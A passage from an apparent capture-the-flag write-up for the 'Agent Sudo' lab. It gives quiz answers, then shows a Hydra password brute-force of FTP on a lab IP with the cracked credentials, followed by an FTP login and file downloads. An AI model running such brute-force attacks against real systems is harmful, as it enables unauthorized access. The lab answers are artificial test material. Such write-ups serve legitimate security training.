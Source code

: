 **Question : How you redirect yourself to a secret page ?**  
**Answer : user-agent**  

**Question : What is the agent name ?**  
**Answer : chris**  

## FTP bruteforce

Let's try to bruteforce FTP using [Hydra](https://github.com/vanhauser-thc/thc-hydra) with the username `chris` :  
```
attacker@AttackBox:~/Documents/THM/CTF/Agent_Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.212.56 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-23 09:01:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ftp://10.10.212.56:21/
[21][ftp] host: 10.10.212.56   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-23 09:02:55
```

We successfully bruteforce user `chris` on FTP. Let's log in to the FTP service with the credentials we foudn :  
```
attacker@AttackBox:~/Documents/THM/CTF/Agent_Sudo$ ftp 10.10.212.56
Connected to 10.10.212.56.
220 (vsFTPd 3.0.3)
Name (10.10.212.56:attacker): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp>
```

Let's get those files on our machine :  
```
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (88.1140 kB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
33143 bytes received in 0.04 secs (812.7109 kB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
```